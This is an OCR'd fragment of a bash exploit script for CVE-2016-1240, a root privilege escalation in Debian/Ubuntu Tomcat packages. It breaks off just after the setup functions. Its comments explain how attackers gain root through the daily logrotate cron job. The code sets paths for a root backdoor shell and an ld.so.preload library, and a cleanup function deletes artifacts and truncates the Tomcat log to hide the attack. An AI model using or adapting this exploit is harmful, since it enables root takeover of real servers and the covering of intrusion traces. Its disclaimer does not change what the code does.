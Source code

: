 ```
# /etc/default/locale and exits. It removes the need for the exploit to run in a loop waiting. 
# Attackers can come back at a later time and check on the /etc/default/locale file. Upon a 
# Tomcat restart / server reboot, the file should be owned by tomcat user. The attackers can
# then add arbitrary commands to the file which will be executed with root privileges by 
# the /etc/cron.daily/tomcatN logrotation cronjob (run daily around 6:25am on default 
# Ubuntu/Debian Tomcat installations).
#
# See full advisory for details at:
# http://legalhackers.com/advisories/Tomcat-DebPkgs-Root-Privilege-Escalation-Exploit-CVE-2016-1240.html
#
# Disclaimer:
# For testing purposes only. Do no harm.
#

BACKDOORSH="/bin/bash"

BACKDOORPATH="/tmp/tomcatrootsh"

PRIVESCLIB="/tmp/privesclib.so"

PRIVESCSRC="/tmp/privesclib.c"

SUIDBIN="/usr/bin/sudo"

function cleanexit {

# Cleanup

echo -e “\n[+] Cleaning up…”

rm -f $PRIVESCSRC

rm -f $PRIVESCLIB

rm -f $TOMCATLOG

touch $TOMCATLOG

if [ -f /etc/ld.so.preload ]; then

echo -n > /etc/ld.so.preload 2>/dev/null

fi

echo -e “\n[+] Job done. Exiting with code $1 \n”

exit $1

}

function ctrl_c() {

echo -e “\n[+] Active exploitation aborted. Remember you can use -deferred switch for deferred exploitation.”

cleanexit 0

}

#intro

```